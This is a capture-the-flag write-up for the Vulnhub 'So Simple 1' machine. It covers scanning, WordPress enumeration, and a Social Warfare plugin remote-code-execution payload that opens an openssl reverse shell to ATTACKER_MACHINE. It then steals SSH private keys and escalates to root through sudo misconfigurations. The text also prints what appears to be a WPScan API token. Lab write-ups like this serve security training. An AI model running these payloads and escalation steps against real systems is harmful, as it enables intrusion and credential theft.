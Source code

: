 # So Simple 1

---

Machine by [@roelvb79](https://twitter.com/roelvb79)

Vulnhub [link](https://www.vulnhub.com/entry/so-simple-1,515/)

Objectives:

  * 2 user flags
  * 1 root flag

---

## Network scan


  
1. Use nmap to scan the network

    We'll use an intense scan on the network as it's quite small (virtualbox host only), we can see web and ssh services running, but no aparent vulnerabilities yet.

    ![victim machine nmap scan result](img/1-nmap.png)
   
<br>

2. Visit the website

    If we visit the website we can see that there is only a big red image with the words "SO SIMPLE":
   
    ![website](img/2-website.png)

    And the website code doesn't reveal anything that's useful:

    ![website origin code](img/3-website_origin.png)

<br>

3. Attempt an ssh login

   Attempting to login with ssh shows it only accepts key authentication, thus ruling out ssh brute force with common passwords, if we want a way in we'll need an alternative

<br>

4. We'll run drib

    As there is no vulnerability that we can see in plain sight, dirb, will show us what are some sub-directories, and we can see that wordpress is installed:
  
    ![dirb website results](imb/4-dirb.png)

5. Use WPScan

   As we saw on the las step wordpress is installed, WPScan will show, the wordpress, plugins and themes versions, as well as vulnerabilities associated with them

<br>

---

---

 



5- create a wpscan account and get api key

6- run "sudo wpscan --api-token BxwwzQ5nrvb34sz235LeWNQQplA4vqr7VBu9WEylbrQ --url http://192.168.56.111/wordpress/ -e" to get information of the wordpress sitem, we know that Social Warfare is installed and on version 3.5.0 is installed and the users "admin" and "max" are created.

7- search for vulnerabilities of social warfare and we find a remote execution vulnerability: "https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/".

8- spin up an apache install, it will contain our payload called "payload.txt" and contain "<pre>system('mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect ATTACKER_MACHINE:4242 > /tmp/s; rm /tmp/s')</pre>", this will create a connection to our attacker machine on port 4242. (reverse shell command from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#openssl)
9- Start nc with the next options "ncat --ssl -vv -l -p 4242", we will get a reverse shell connection
10- navigate to the max user .ssh folder and get the id_rsa key, we will copy the contents and create a file on our attack machine, we'll call it "key", paste the private key into it, and chmod 600 said file.
11- add the private key with "ssh-add key"
12- ssh into the machine as max with "ssh max@192.168.56.111"
13- once in we can cat the file user.txt and get the first flag
14- using "sudo -l" we'll know what the user has acces to use as root without asking a password, this will return that the user can use /usr/sbin/service.
15- we will use "sudo -u steven /usr/sbin/service ../../bin/bash" this will change to the user steven with the permissions of max /usr/sbin/service and will make sure that we acces the user with /bin/bash as the interpreter.
16- repeat "sudo -l" for user steven, will return a "/opt/tools/server-health.sh" file (non existant), we'll create the folder tools and file server-health.sh. this file will contain: 
#!/bin/bash

bash
17- then we will "chmod +x /opt/tools/server-health.sh"
18- we can use "sudo -u root /opt/tools/server-health.sh" to get root access to the machine.
19- copy the root's ssh private key for direct root access to the machine, and get the flag from inside the root's home folder
WpScan
